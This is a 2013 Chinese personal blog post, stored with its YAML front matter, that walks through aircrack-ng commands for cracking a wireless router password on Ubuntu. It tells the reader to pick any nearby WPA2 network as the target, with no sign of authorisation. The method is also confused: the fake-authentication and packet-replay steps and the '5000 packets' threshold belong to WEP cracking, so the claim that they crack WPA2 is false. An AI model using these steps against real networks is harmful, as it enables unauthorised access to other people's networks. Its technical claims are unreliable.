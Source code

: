 ```yaml
---
date: 2013-05-20 16:08:08
id: 99
path: source/_posts/2013-05-20-我这是要转-Ubuntu-的节奏吗.md
tags:
  - Ubuntu
  - 运维
  - Linux
title: 我这是要转 Ubuntu 的节奏吗
---
```


破了电信还是不爽，没事上午体育课的时候鼓捣了下破路由器的密码。大爱ubuntu。

1.下载安装aircrack-ng。

sudo apt-get install aircrack-ng
 
2.启动无线，垃圾微软禁用开启无线，ubuntu直接调用爽歪歪，开启完成后进入ubuntu ，开一个终端，ifconfig -a看看wlan是否开启，开启正常可进行下一步。

3.准备工作完成，开始破解。开启终端1，

sudo airmon-ng start wlan0sudo airodump-ng mon0
 
这时会看到无线的地址出现在屏幕上，这里有显示它们的mac地址以及所在频道。现在大部分的路由都是wpa2的加密方式，果断选择类型为wpa2的无线为破解对象。我们需要记录它所在的频道以及mac地址。

4.开启终端2

sudo airodump-ng --channel 【频道】 --bssid 【目标主机mac地址】 -w wpa2 mon0
 
这里的wpa2为默认的存包文件的名字，可以更改。

5.开启终端3

sudo aireplay-ng -1 0 -a 【目标mac】 -h 【本机MAC地址】 mon0
（本机的mac可以开启一个新的终端用ifconfig -a来查询）

这时会有成功字样显示，如果没有显示可能就是目标不支持或者系统部稳定，需要更换目标了。显示成功后进行下步。

6.继续输入

sudo aireplay-ng -2 -F -p 0841 -c ff:ff:ff:ff:ff:ff -b 【目标MAC地址】 -h 【本机MAC地址】 mon0
此时终端2中的数据会增长很快，当数据到达5000的时候就可以破解了。

7.开启终端4

sudo aircrack-ng wpa2*.cap
这时就开始破解了，如果你进行过多组，可能会有多组结果，你可以用数字123进行选择，如果不出意外你已经破解出来这组无线的密码了。

8.最后 结束监控过程

sudo airmon-ng stop mon0
( sudo airomon-ng check可以查看你开启了多少监控，如果运行多组的时候可以查看后选择关闭)。  